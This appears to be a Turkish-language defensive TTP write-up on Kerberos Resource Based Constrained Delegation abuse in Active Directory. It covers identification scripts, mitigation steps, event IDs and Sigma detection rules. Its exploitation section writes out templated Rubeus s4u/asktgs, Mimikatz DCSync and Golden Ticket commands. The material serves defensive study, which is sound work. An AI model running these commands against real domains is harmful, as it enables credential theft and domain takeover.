

# TTP 0x5 - Resource Based Constrained Delegation 

| Metric  | Value  |
|---------|--------|
| Severity                      | `High` |
| Ease of Identification        | `Easy` |
| Ease of Mitigation            | `Medium` |
| Ease of Detection             | `Hard` |
| Ease of Deception             | `Easy` |
| MITRE ATT&CK Tactic           | `N/A` |
| MITRE ATT&CK Technique        | `N/A` |
| MITRE ATT&CK Sub-Technique    | `N/A` |
| MITRE ATT&CK ID               | `N/A` |
| APT Groups                    | `N/A`|
| Target                        | `Kerberos Protocol` |
| Tools                         | `Rubeus`, `Mimikatz` |
| Privilege Before Exploitation | `N/A` |
| Privilege After Exploitation  | `Privileged Domain Account` |
| Version                       | 0.1 |
| Date                          | 31.08.2022 |

## Preliminary

Kerberos, güvenli olmayan ağlar üzerinde bilet (ticket) olarak adlandırılan veri paketlerini kullanarak kimlik doğrulama (authentication) işlemlerini gerçekleştiren bir protokoldür. UDP ve TCP protokollerini kullanmakta ve 88 numaralı port üzerinde çalışmaktadır.  

Active Directory altyapısı ana kimlik doğrulama protokolü olarak Kerberos kullanmaktadır. Kerberos protokolü iletişimi üç taraf arasında gerçekleştirilmektedir.

1.	KDC (Key Distribution Center): Kerberos protokolününde kimlik doğrulama, biletlerin üretilmesi ve doğrulanması gibi işlevleri gerçekleştiren servistir.

2.	İstemci (Client): Servise erişmek için kimlik doğrulama sürecini başlatan objedir.

3.	Uygulama (Application/Servis): İstemcinin kimlik doğrulama sonucunda erişmek istediği servistir.

### Kerberos Double Hop

Kerberos protokolünün doğası gereği uygulama kendisine erişen istemcinin kimlik bilgileri ile başka sunuculara erişmesine izin vermemektedir. Bu durum uygulamanın kendisine iletilen ST (Service Ticket) ile diğer servis için istemciye ait farklı bir bilet üretememesinden kaynaklanmaktadır. Bu durum Kerberos Double Hop problemi olarak adlandırılmaktadır. Microsoft bu problemi çözmek için Kerberos protokolünü çeşitli delegasyon yöntemleri ile geliştirmişir. 

-   Unconstrained Delegation (Kısıtlamasız Delegasyon)
-   Costrained Delegation (Kısıtlanmış Delegasyon)
-   Resource Based Constrained Delegation (Kaynak Tabanlı Kısıtlanmış Delegasyon)

### Resource Based Constrained Delegation (RBCD)

Microsoft, Windows Server 2012 ile birlikte Kerberos Resource Based Constrained Delegation yöntemini ortaya koymuştur. Bu yöntem sayesinde RBCD tanımlaması yapılırken kaynaklara hangi hesapların delege edileceğinin tanımlaması yapılmaktadır.

Resource Based Constrained Delegation tanımı ile erişim yetkisi elde etmiş hesaplar taklit etme (impersonate) yeteneğini kullanarak delegasyon tanımlı hesabın yeteneklerini kullanabilmektedir. Diğer delegasyon yöntemlerinden farkı ise ilk olarak kaynaklar, kendilerini taklit edebilecek hesapları seçebilmektedirler. Bir diğer durum ise delegasyonun ters tanımlanması farklılık göstermektedir.

- Resource Based Constrained Delegation (RBCD) = incoming
- Classic Constrained Delegation = outgoing


 Saldırgan A sunucusuna erişim sağladığında A sunucusundan B sunucusuna kaynak tabanlı kısıtlı delegasyon tanımlamayabilmektedir. (Adım 1) Delegasyon yönteminden yararlanarak Administrator hesabı için KDC den S4U2Self ile ST bilet talebinde bulunabilir. (Adım 2, 3) KDC den almış olduğu ST biletini, S4U2Proxy isteğinde kullanarak A servisine erişim biletini elde edebikmektedir. (Adım 4, 5) Ardından aldığı bilet ile A servisine erişim sağlayabilmektedir. (Adım 6)
 
 **Not:** Bu senaryoda saldırganın A hizmeti üzerinde DACL oluşturma yetkisinin olduğu varsayılmaktadır.


## Description

Active Directory ortamında Resource Based Constrained Delegation yöntemi ile kaynaklar kendilerini taklit edebilecek (impersonate) hesapları seçebilmesine olanak tanır. 

Resource Based Constrained Delegation ayarı aktif edildiğinde objenin msDS-AllowedToActOnBehalfOtherIdentity alanına binary değerler eklenmektedir.

## Impact

Delegasyon tanımlı objenin yetkilerini kullanarak domaindeki her hangi bir kullanıcıyı taklit edebilmektedir.(impersonate) Diğer kısıtlı delegasyon yöntemlerinden farklı olarak her kullanıcı için bilet üretebilmektedir. Normal kısıtlı delagasyon 

Diğer kısıtlı delagasyon yöntemlerinde S4U2Self isteğinde biletin geçerli (Forwerdable) olması gerekmektedir. RBCD yönteminde ise S4U2Self biletinin geçerli olmasına bakmaksızın sonraki adımda yapılan S4U2Proxy isteği olumlu sonuç vermektedir. 
 
**Not**: Normal bir senaryoda, S4U2Self isteğinde geçerli (Forwerdable) bilet elde edebilmek için TrustedAuthForDelegation ayarının aktif olması beklenmektedir. Resource Based Constrained Delegation yönteminde ise bu ayarın aktifliği önemli değildir. Araştırmalarımız sonucunda RBCD S4U2Self isteğinde PA-PAC değeri içeriğinde RBCD aktifliği varsa TrustedAuthForDelegation aktifliğine bakmadan geçerli bilet gönderilmektedir. 


## Identification

Resource Based Constrained Delegation tanımı aktif edilmiş kullanıcıların ve bilgisayarların tespiti için aşağıdaki Powershell betikleri kullanılabilmektedir. 
 
**Not:** Get-ADUser ve Get-ADComputer cmdletleri Powershell ActiveDirectory modülü içerisinde bulunmaktadır. Bu nedenle eğer komut Domain Controller dışında çalıştırılacaksa, bu modül manuel olarak yüklenmelidir.

```powershell
# Resource Based Constrained Delegation aktif edilmiş bilgisayarların tespiti
Get-ADComputer -Filter -Filter * -Properties PrincipalsAllowedToDelegateToAccount | where-object {$_.PrincipalsAllowedToDelegateToAccount -ne $null}
```

```powershell
# Resource Based Constrained Delegation aktif edilmiş kullanıcıların tespiti
Get-ADUser -Filter * -Properties PrincipalsAllowedToDelegateToAccount | where-object {$_.PrincipalsAllowedToDelegateToAccount -ne $null}
```


Resource Based Constrained Delegation aktif edilmiş objeler manuel olarak **Active Directory Users and Computers (dsa.msc)** aracı ile tespit edilebilmektedir.Bunun için uygulama üzerinden objenin detay sayfası (Properties) açılır. **Attribute Editor** sekmesi üzerinde, **msDS-AllowedToActOnBehalfOtherIdentity** değeri analiz edilerek yapılabilir. Bu değer Binary bir şekilde System.DirectoryService.ActiveDirectorySecurity yönergesiyle saklanmaktadır. Bu değer dolu ise objenin zafiyetli olduğu anlaşılabilmektedir.


## Exploitation

Resource Based Constrained Delegation (RBCD) zafiyeti Rubeus, Mimikatz ve farklı araçlarla sömürülebilmektedir. RBCD tanımı ile yetkilendirilmiş hesaplar ele geçirildiklerinde, kendisi için erişim yetkisi verilmiş servisler için ST bileti elde edebilmektedir. Rubeus s4u modülü ile zafiyetli durumdan yararlanarak servis erişim bileti elde edebiliriz.

```powershell
Rubeus.exe s4u /user:<erişim sağlaycak kullanıcı>> /rc4:<rc4 ile şifrelinmiş parola> /msdsspn:<RBCD tanımlanmış hesap> /impersonateuser:
```


Elde edilen TGS bileti ile bağlanılmak istenen servis için Rubeus asktgs modülü ile ST bileti elde edilebilmektedir. 

```powershell
Rubeus.exe asktgs /service:<erişilmek istenen servis> /ticket:<TGS> /ptt
```


Bu işlemden sonra DCSync saldırısı ile kullanıcı parola hash değerleri elde edilebilmektedir.

```powershell
Mimikatz.exe "lsadump::dcsync /user:<kullanıcı adı>" "exit"
```


Yetkili kullanıcı parola hash değerleri elde edilerek sistemde daha tehlikeli haraketler sergilenebilmektedir. Golden Ticket saldırısı gerçekleştirerek DC sunucusunun C dizinine CIFS servisi üzerinden erişim sağlanabilmektedir.

```powershell
Mimikatz.exe "kerberos::golden /startoffset:0 /endin:600 /renewmax:10080 /user:<kullanıcı adı> /domain:<domain adı> /sid:<domain sid değeri> /aes256:<krbtgt parola hash değeri> /id:<500> /groups:<group idleri> /ptt" "exit"
```

```powershell
dir \\<dc.domainadı>\c$
```


## Mitigation

1. Zafiyetli objeler tespit edildikten sonra bu objelerin kullanıldığı senaryolar ve uygulamalar incelenmelidir. Eğer uygulamalar Resource Based Constrained Delegation özelliğine ihtiyaç duymadan da çalışabiliyor ise aşağıdaki adımlar uygulanarak Resource Based Constrained Delegation devre dışı bırakılmalıdır.

    a. Aşağıdaki Powershell betikleri kullanılarak kullanıcılar ve bilgisayarlar üzerinde Resource Based Constrained Delegation tanımı otomatize bir şekilde devre dışı bırakılabilmektedir.

    ```powershell
    # Resource Based Constrained Delegation özelliği kullanıcılar için devre dışı bırakılması
    Get-ADUser -Filter * -Properties PrincipalsAllowedToDelegateToAccount | Where-Object {$_.PrincipalsAllowedToDelegateToAccount -ne $null} | Set-ADUser -PrincipalsAllowedToDelegateToAccount $null
    ```

    ```powershell
    # Resource Based Constrained Delegation özelliği bilgisayarlar için devre dışı bırakılması
    Get-ADComputer -Filter * -Properties PrincipalsAllowedToDelegateToAccount | Where-Object {$_.PrincipalsAllowedToDelegateToAccount -ne $null} | Set-ADComputer -PrincipalsAllowedToDelegateToAccount $null
    ```

    **Not:** Bu betiklerle tüm zafiyetli objeler üzerinde değişiklikler otomatize bir şekilde gerçekleştirilmektedir. Eğer ortamdaki servislerin gereksinimleri doğru analiz edilmemişse bu işlem kesintilere sebep olabilmektedir. Bu gibi kesintilerin yaşanmaması için giderme işlemi **Filter** veya **Identity** parametreleri kullanılarak tekil bir şekilde de gerçekleştirebilmektedir.

    ```powershell
    # Resource Based Constrained Delegation özelliğinin bilgisayarlarda tekil olarak devre dışı bırakılması
    Set-ADComputer -Identity <computername> -PrincipalsAllowedToDelegateToAccount $null
    ```

    ```powershell
    # Resource Based Constrained Delegation özelliğinin kullanıcılarda tekil olarak devre dışı bırakılması
    Set-ADUser -Identity <username> -PrincipalsAllowedToDelegateToAccount $null
    ```

3. Eğer zafiyet, uygulama veya servislerdeki bağımlılıklardan ötürü kapatılamıyorsa aşağıdaki adımlar uygulanarak ek güvenlik önlemleri alınmalıdır.
    
    a. Ortamdaki yetkili kullanıcılar **Sensitive** olarak işaretlenerek bu objelerin Resource Based Constrained Delegation tanımlı sunucularda kullanımı engellenebilmektedir. Sensitive olarak işaretlenen objelerin TGT biletleri bu tip servislere gönderilmemektedir. Objeler aşağıdaki Powershell betiği ile **Sensitive** olarak işaretlenebilmektedir.
    
    ```powershell
    # Objenin Sensitive olarak işaretlenmesi
    Get-ADUser -Identity <object_samaccountname> | 
    Set-ADAccountControl -AccountNotDelegated $true
    ```
    
    b. Bu işlemin manuel olarak uygulanması için **Active Directory Users and Computers (dsa.msc)** aracı üzerinden objenin detay sayfası (Properties) açılır. **Account** sekmesi içerisindeki, **Account options** kısmındaki **"Account is sensivite and connot be delegated"** kutucuğu işaretlenerek önemli/yetkili objelerin delegasyon tanımlı sunucularda kullanımı engellenebilmektedir.

    c. Microsoft bu tip güvenlik önlemlerini toplu bir şekilde uygulamak adına Protected Users isimli bir grup oluşturmuştur. Bu grubun üyelerinde düşük şifreleme algoritmaları kullanamamaktadır. Bu grup bu gibi bir çok güvenlik önlemini otomatize bir şekilde uygulamaktadır. Önemli/yetkili kullanıcıların bu gruba üye olarak eklenerek Resource Based Constrained Delegation gibi sunuculara erişim sağlaması engellenebilmektedir.

    d. Resource Based Constrained Delegation tanımlı sunuculara sadece ön tanımlı kullanıcıların erişimine izin verilmeli veya önemli kullanıcıların erişimi engellenmelidir. Bu sayede servise erişmesine gerek olmayan kullanıcıların erişimi engellenebilmektedir.
 
## Detection

Resource Based Constrained Delegation saldırısının farklı fazlarda tespiti için aşağıdaki Event ID bilgileri ve Sigma kuralları incelenmeli ve kurum bünyesinde tespit teknolojileri üzerinde uygulanmalıdır.

| Event Id  | Title | Description |
|---------|--------|--------|
| 4662 | `An operation was performed on an object.` | Objelerin msDS-AllowedToActOnBehalfOtherIdentity değeri üzerinde yapılan okumalar tespit edilebilmektedir. |
| 4769 | `A Kerberos service ticket was requested.` | Kerberos TGS istekleri tespit edilebilmektedir. |
| 5136 | `A directory service object was modified.` | Objelerin msDS-AllowedToActOnBehalfOtherIdentity değeri üzerinde yapılan yazma işlemleri tespit edilebilmektedir. |
| 3 | `Network connection` | DC üzerindeki Kerberos servisine erişim sağlayan processler tespit edilebilmektedir. |

| Rule Id  | Title | TTP | Stage | Source | Event Id |
|---------|--------|--------|--------|--------|--------|
| 0x1 | [msDS-AllowedToActOnBehalfOtherIdentity Attribute Modification](detection-rules/Rule%200x1%20-%20msDS-AllowedToActOnBehalfOtherIdentity%20Attribute%20Modification.yaml) | `Multiple` | `Vulnerability`, `Persistence` | Security | 5136 |
| 0x2 | [msDS-AllowedToActOnBehalfOtherIdentity Attribute Enumeration](detection-rules/Rule%200x2%20-%20msDS-AllowedToActOnBehalfOtherIdentity%20Attribute%20Enumeration.yaml) | `Multiple` |`Enumeration` | Security | 4662 |
| 0x3 | [Kerberos TGS Request for Resource Based Constrained Delegation](detection-rules/Rule%200x3%20-%20Kerberos%20TGS%20Request%20for%20Resource%20Based%20Constrained%20Delegation.yaml) | `Resource Based Constrained Delegation` | `Exploitation` | Security | 4769 |
| 0x4 | [Kerberos Network Connection Initiated by Suspicious Process](detection-rules/Rule%200x4%20-%20Kerberos%20TGT%20Request%20for%20Uncontrained%20Delegation%20.yaml) | `Multiple` | `Exploitation` | Sysmon | 3 |

## References

- https://shenaniganslabs.io/2019/01/28/Wagging-the-Dog.html
- https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution
- https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4769
- https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4662
- https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-5136

## Authors

- Serdal Tarkan Altun
